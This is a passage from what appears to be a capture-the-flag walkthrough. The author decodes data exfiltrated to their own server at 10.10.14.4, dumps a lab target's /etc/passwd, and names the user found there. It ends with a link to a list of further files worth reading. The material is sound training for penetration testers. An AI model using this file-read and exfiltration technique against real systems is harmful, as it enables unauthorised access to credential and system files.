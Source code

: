 6. I copied the string from the request sent to my server

![string](../.res/2022-12-19-11-04-02.png)  

7. I put it in my php file and went to `http://10.10.14.4/decode.php` and got the /etc/passwd file we requested.

![file decoded /etc/passwd](../.res/2022-12-19-11-05-51.png)

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd
Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd
Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

- So we have a jnelson user
- Let's try to find other interesting files. [Here](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2) is a list
